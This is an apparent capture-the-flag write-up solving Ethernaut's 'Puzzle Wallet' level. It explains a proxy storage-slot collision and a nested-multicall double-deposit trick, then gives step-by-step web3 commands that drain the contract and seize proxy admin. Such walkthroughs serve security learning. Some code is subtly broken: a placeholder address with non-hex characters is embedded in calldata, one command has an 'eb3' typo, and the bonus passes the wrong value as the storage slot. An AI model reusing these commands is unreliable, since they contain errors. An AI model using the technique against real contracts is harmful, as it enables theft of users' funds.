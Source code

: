# Solution to challenge 24 : Puzzle Wallet

Our goal here is to claim ownership of the PuzzleProxy contract. First we need to understand the Proxy structure of the challenge, the slot arrangement in both contracts should be the same because the slots are mapped. 

As a result, when the proxy contract makes a call to the implementation contract, the proxy's storage variables are modified and the call is made in the context of the proxy.

```
SLOT    PuzzleProxy   |  PuzzleWallet
----------------------------------------------------------------------------------
0       pendingAdmin     owner

1       admin            maxBalance
```        

This means that if we change the value of `pendingAdmin` in ``PuzzleProxy`` contract , the `owner` value will be changed in `PuzzleWallet` contract.

So let's think about our objective : change `admin` value in `PuzzleProxy` to player's address, there is no way to change it through ``PuzzleProxy``, so let's aim at changing `maxBalance` value which shares the "same storage slot".

There are 2 ways to alter this value :

1. `init()` function : not exploitable because it **has already been initialized**
2. `setMaxBalance()` function : exploitable but we need the contract's balance to be equal to zero

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet1.png)

Unfortunately, by default the contract's balance is equal to `0.001 ether` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet2.png)

We can reduce its balance through `execute()` function which is equivalent to a withdraw function :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet3.png)

Sadly the contract keeps track of what we deposited, that's why we will need to use the last and most complex function available : `multicall()` 

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/puzzlewallet4.png)

This function allows us to execute multiple functions in 1 transaction. Thus, we can abuse of the fact that even if ETH is spent, `msg.value` will remain the same and take the opportunity to make a double call to the `deposit` function. The developers were aware of this exploitable issue and made a protection by checking the **selector** (first 4 bytes of the function signature).

But we can bypass this protection if we **"pack"** one deposit inside another `multicall`

Let's sum up all the actions required together, we will only used web3 js commands :

### 1. Claim ownership of `PuzzleWallet` contract by changing `pendingAdmin` value to the player's address

We first calculate the signature of the `proposeNewAdmin` function :

```
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");

'0xa6376746'
```

Then the signature of the parameter `address` with player's address : 

```
web3.eth.abi.encodeParameter("address", player);

'0x000000000000000000000000cabcdefghijkl123456123451234567123456789'
```

We put them together and send this transaction data :

```
contract.sendTransaction({ data: '0xa6376746000000000000000000000000cabcdefghijkl123456123451234567123456789' });
```

After that, the `owner`'s  value of `PuzzleWallet` is now your player's address.

### 2. Add our player's address to the whitelist in order to interact with the different functions

```
contract.addToWhitelist(player);
```

### 3. Prepare the data bytes required for the  ``multicall`` and `deposit` exploit, do not forget to include the parameters expected by the functions

``deposit()`` function signature :

```
deposit = web3.eth.abi.encodeFunctionSignature("deposit()");

'0xd0e30db0'
```

`multicall(bytes[])` function signature :

```
multicall = eb3.eth.abi.encodeFunctionSignature("multicall(bytes[])");

'0xac9650d8'
```

Signature of the `deposit` call as a  `multicall` parameter :

```
web3.eth.abi.encodeParameter('bytes[]', [deposit]);

'0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

Again, we add the `deposit` function signature  :

```
packedDeposit = '0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000';
```

### 4. Call `multicall` function with the prepared data bytes with a msg of at least ``0.001 ether``

```
contract.multicall([deposit, packedDeposit], { value: toWei('0.001') });
```

### 5. As a result, the contract has now a balance equal to `0.002 ether`, we called twice the deposit function and increased our "available balance" while only depositing `0.001 ether`

```
(await getBalance(instance)).toString();

'0.002'
```

### 6. We can now withdraw `0.002 ether` from the contract using `execute` function and make the contract's balance empty

```
contract.execute(player, toWei('0.002'), '123');
```

### 7. All the protections are now gone, we can now change `maxBalance` value to finally become the owner of the `PuzzleProxy` contract

```
contract.setMaxBalance('1116821831790595974849218070050646934865281521986');
```


## BONUS : Retrieve the address of the proxy's contract

Once we get our game instance, we only know the `PuzzleWallet` 's contract address. 

But according to **EIP-1967** : To avoid clashes in storage usage between the proxy and logic contract, the address of the logic contract is typically saved in a specific storage slot guaranteed to be never allocated by a compiler.

For OpenZeppelin's contracts it is at slot ``0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc``

As a result, we can get our address by getting the data at this specific storage slot :

`web3.eth.getStorageAt(instance,"0xcabcdefghijkl123456123451234567123456789")`

Source : https://eips.ethereum.org/EIPS/eip-1967